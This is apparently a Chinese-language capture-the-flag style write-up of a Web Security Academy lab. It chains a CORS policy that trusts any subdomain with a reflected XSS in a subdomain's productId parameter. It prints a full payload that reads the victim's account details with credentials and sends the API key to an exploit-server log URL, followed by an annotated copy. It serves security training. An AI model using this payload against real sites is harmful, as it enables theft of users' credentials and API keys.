

当添加任意子域时，响应标头返回，说明cors信任任意子域


该网站的检查库存会将单价信息返回到子域，并且productId参数存在xss漏洞




所以可以采用攻击链：

```javascript
子域触发xss--->访问主域敏感信息--->将敏感信息保存到任意网站
```

poc:

```javascript
<script>
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

poc解释：

```javascript
<script>
//子域触发xss，xss访问主域敏感信息
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/
   ?productId=4
   //采用原生js http请求将获取到的内容，保存到主机
   <script>var req = new XMLHttpRequest(); 
   req.onload = reqListener; 
   //访问敏感信息
   req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); 
   req.withCredentials = true;
   req.send();function reqListener() {
       //携带敏感信息，get请求访问主机，主机log日志即可出现用户apikey
   location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };
   %3c/script>
   &storeId=1"
</script>
```

